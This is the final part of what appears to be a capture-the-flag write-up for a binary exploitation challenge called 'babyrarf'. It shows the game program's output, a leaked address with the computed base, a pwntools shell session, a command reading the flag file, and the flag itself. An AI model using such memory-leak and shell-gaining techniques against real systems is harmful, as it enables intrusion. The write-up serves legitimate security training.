 ```
You deal 40 dmg
The boss deals 70 dmg
You lost!

Choose an attack:

1. Knife

2. A bigger knife

3. Her Majesty's knife

4. A cr0wn


leak_csu=0x55b3b5b3a4d0
base: 0x55b3b5b39000
You deal 140736258161760 dmg
The boss deals 96 dmg
You lost!

Congratulations! You may now declare yourself the winner:


[*] Switching to interactive mode
$ cat /home/babyrarf/flag.txt
union{baby_rarf_d0o_d00_do0_doo_do0_d0o}
```

That's all folks :)
